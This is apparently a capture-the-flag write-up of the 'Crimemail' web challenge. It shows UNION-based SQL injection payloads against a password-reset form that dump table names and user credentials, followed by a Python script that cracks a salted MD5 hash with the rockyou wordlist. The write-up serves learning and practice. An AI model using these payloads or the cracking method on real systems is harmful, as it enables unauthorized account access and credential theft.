






# Crimemail, Web, 20pts

## Problem

Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.

Let's see if you can hack your way in his account...

Hint: his password's md5 is computed as followed: md5 = md5($password + $salt) and Collins Hackle has a password which can be found in an english dictionary

https://crimemail.ctf.insecurity-insa.fr/

## Solution

When I've opened provided url, a simple website with login was presented:





There was no obvious flaw(s) there, so I've checked __Lost password?__ link. Almost immediately I've found this feature was vulnerable to the SQL Injection:



As a result I've seen familiar MySQL error message (actually the part of familiar "You have an error in your SQL syntax; check the manual that corresponds..." :) 





First, using simple ```order by ``` clause I've figured out that there is only one column in query. So first what I've done was to read database structure:


```
username=hello' union select group_concat(concat(table_name,0x20,column_name)) from information_schema.columns where table_schema=database()-- 
```

As a result, I've got an ```users``` table structure:




Getting an information from ```users``` table was simple:


```
username=hello' union select group_concat(concat(username,0x20,pass_salt,0x20,pass_md5)) from users-- 
```

There were couple of users in database, and Collins Hackle seemed to be one of them:





His login details were as follows (username, salt used to hash the password and hash of the actual password itself):


```
c.hackle yhbG f2b31b3a7a7c41093321d0c98c37f5ad
```

From the hint attached to the challenge I knew that MD5 hash was a result of following operation:

```
md5 = md5($password + $salt)
```

Using one of password dictionaries I have, I've created small Python script to find the correct plaintext:


```python
#!/usr/bin/python
import hashlib

for passwd in open("/Users/bl4de/hacking/dictionaries/rockyou.txt", "r"):
    if hashlib.md5(passwd.strip() + "yhbG").hexdigest() == "f2b31b3a7a7c41093321d0c98c37f5ad":
        print "[+] password for Collins Hackle is {}".format(passwd.strip())
        exit(0)

print "[+] Done"
```

It was found within the blink of eye:


```
bl4de:~/hacking/ctf/2018/INSHACK_CTF_2018 $ ./colins_hackle.py
[+] password for Collins Hackle is pizza
```


When I've logged using Collin's credentials (c.hackle/pizza), I've got the flag:





Flag: **INSA{s3cr3t_l0cat10n}**
